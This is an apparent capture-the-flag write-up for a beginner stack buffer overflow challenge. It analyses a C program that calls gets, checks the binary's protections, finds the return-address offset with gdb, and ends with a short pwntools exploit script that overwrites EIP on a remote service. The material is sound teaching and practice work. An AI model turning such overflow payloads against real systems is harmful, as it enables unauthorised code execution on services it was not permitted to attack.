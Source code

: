 # Challenge 1
## Description
Let's start off simple, can you overflow the correct buffer?

### Two files were comrades in the challenge. (vuln.c , vuln)
### vlun.c
<img src="https://github.com/q5fj/Pwn/assets/88992167/76c5aa29-ee1d-4098-bd72-92e7207f575c">

We note that in the code the binary file will not work unless the binary file path contains a file named flag.txt
<img src="https://github.com/q5fj/Pwn/assets/88992167/0a7f786c-8fbc-4524-832f-c38b7a61fcf3">

Also notice we have "gets" in the user input 
 
#### gets - get a string from standard input (DEPRECATED)
<img src="https://github.com/q5fj/Pwn/assets/88992167/0ae608e9-5726-4212-8449-47e2ea331cb7">

Now that have analyzed the source, let us move to the binary file:
### vuln
#### Command :-
```
$ file vuln 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0b59e5e3-38cb-4508-926f-0961f43efe8e">

The file is 32 bit, let's check the security features : 
#### Command :-
```
$ checksec vuln 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/598555c8-43eb-48d6-a71e-04da7dcd334e">

No stack canary, assume BOF.

Let's run the file and see what happens.
#### Don't forget to create a flag.txt file for the file to work :-
```
echo "Flag{1234567890}" > flag.txt
```
and run the file:-
```
$ ./vuln
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/1c98a2ec-7e8c-41d5-ab81-c8d787f95f6b">

We also see the user input and the program exits :)

If we remember that it uses the `gets` function, which is a dangerous function that leads to a buffer overflow because it does not read user input.

Let's try to enter a byte higher than 100
```
$ python -c 'print("A" * 150)' | ./vuln
```
We notice that the program printed the contents of the flag.txt file.

<img src="https://github.com/q5fj/Pwn/assets/88992167/b67559bb-9639-4f40-998d-bc256754b291">



Now let's start examining the file closely :)

I will use gdb tool
```
$ gdb ./vuln -q
```
I will display the functions inside the file 
#### Command :-
```
gef➤ info functions
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/dc92ea00-d1dd-462f-9b60-d86e3432bb0e">


Let's start by analyzing the main function
#### Command :-
```
gef➤ disassemble main 
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0b24c7ef-295f-4493-b27e-7d0b74cd88cd">

#### So our function is main :)

Now we need the appropriate offset:-
#### Command :-
```
gef➤  pattern create 150
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/0a1d8ee4-6bae-467f-a5d4-850eb59e6116">

We have EIP record $eip

<img src="https://github.com/q5fj/Pwn/assets/88992167/8257bcdf-f49a-4c0b-8c2d-34813426a897">

Now let's extract offset 
#### Command :-
```
gef➤  pattern offset haaa
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/459b9456-3cbc-4cc0-bba9-0dafbd737a3e">

### Let's Start Exploiting 
```
import shutup; shutup.please()
from pwn import *

# elf = context.binary = ELF('./vuln')
# io = elf.process()

host =
port = 
io = remote(host, port)

offset = 25

payload = b''
payload += b'A' * offset
payload += p32(0x1353) # Address for vuln function

io.recv()
io.sendline(payload)
io.interactive()


```






